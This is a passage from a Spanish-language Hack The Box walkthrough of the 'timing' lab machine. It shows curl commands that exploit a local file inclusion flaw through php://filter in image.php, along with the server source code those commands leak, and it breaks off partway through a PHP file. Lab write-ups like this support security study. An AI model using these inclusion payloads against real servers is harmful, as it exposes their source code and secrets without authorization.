 ```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=js/profile.js" | base64 -d
function updateProfile() {
    var xml = new XMLHttpRequest();
    xml.onreadystatechange = function () {
        if (xml.readyState == 4 && xml.status == 200) {
            document.getElementById("alert-profile-update").style.display = "block"
        }
    };

    xml.open("POST", "profile_update.php", true);
    xml.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xml.send("firstName=" + document.getElementById("firstName").value + "&lastName=" + document.getElementById("lastName").value + "&email=" + document.getElementById("email").value + "&company=" + document.getElementById("company").value);
}
```

De nuevo encontramos otro archivo php, echemos un vistazo a **`profile_update.php`**

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=profile_update.php" | base64 -d
```

```php
<?php

include "auth_check.php";

$error = "";

if (empty($_POST['firstName'])) {
    $error = 'First Name is required.';
} else if (empty($_POST['lastName'])) {
    $error = 'Last Name is required.';
} else if (empty($_POST['email'])) {
    $error = 'Email is required.';
} else if (empty($_POST['company'])) {
    $error = 'Company is required.';
}

if (!empty($error)) {
    die("Error updating profile, reason: " . $error);
} else {

    include "db_conn.php";

    $id = $_SESSION['userid'];
    $statement = $pdo->prepare("SELECT * FROM users WHERE id = :id");
    $result = $statement->execute(array('id' => $id));
    $user = $statement->fetch();

    if ($user !== false) {

        ini_set('display_errors', '1');
        ini_set('display_startup_errors', '1');
        error_reporting(E_ALL);

        $firstName = $_POST['firstName'];
        $lastName = $_POST['lastName'];
        $email = $_POST['email'];
        $company = $_POST['company'];
        $role = $user['role'];

```